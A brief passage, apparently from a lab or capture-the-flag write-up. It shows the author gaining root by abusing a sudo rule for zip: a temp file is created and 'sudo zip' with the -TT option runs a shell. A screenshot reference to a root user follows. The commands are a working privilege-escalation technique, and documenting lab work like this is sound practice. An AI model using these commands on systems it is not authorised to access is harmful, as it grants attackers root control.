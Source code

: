    Copied and pasted the command lines to escalate privileged access.

   `TF=$(mktemp -u)`

   `sudo zip $TF /etc/hosts -T -TT 'sh #'`

   `sudo rm $TF`

   ![rootUser](../assets/img/dev/Screenshot%202024-07-10%20at%2010.05.02.png)
